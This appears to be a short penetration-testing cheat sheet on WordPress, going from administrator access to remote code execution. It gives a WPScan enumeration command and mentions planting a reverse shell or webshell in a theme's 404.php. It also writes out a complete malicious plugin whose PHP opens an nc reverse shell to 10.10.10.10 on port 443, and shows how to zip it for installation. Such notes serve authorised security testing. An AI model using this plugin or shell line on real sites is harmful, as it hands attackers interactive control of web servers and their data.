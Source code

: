 ```yaml
---
description: Wordpress is maybe the most common CMS on internet.
---
```


# Wordpress

## WPScan

```
wpscan --url http://example.com -e ap,at,cb,dbe,u1-5,m1-15 --api-token <APITOKEN>
```

## From Admin to RCE

### Theme Editor

We can modify a theme by adding a reverse shell or a webshell on the 404.php file.

### Installing Plugin

Another way to obtain a reverse shell is to upload and install a plugin. It is important to add the comment lines in order to a successful installation.

```
<?php
    /*
    Plugin Name: HackinNotes Wordpress Shell
    Plugin URI: https://github.com/leonjza/wordpress-shell
    Description: Execute Commands as the webserver you are serving wordpress with! Shell will probably live at /wp-content/plugins/shell/shell.php. Commands can be given using the 'cmd' GET parameter. Eg: "http://192.168.0.1/wp-content/plugins/shell/shell.php?cmd=id", should provide you with output such as <code>uid=33(www-data) gid=verd33(www-data) groups=33(www-data)</code>
    Author: Leon Jacobs
    Version: 0.3
    Author URI: https://leonjza.github.io
    */

system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 443 >/tmp/f");?>
```

After that we just need to zip it and install.

```
zip revshell-plugin.zip revshell-plugin.php
```
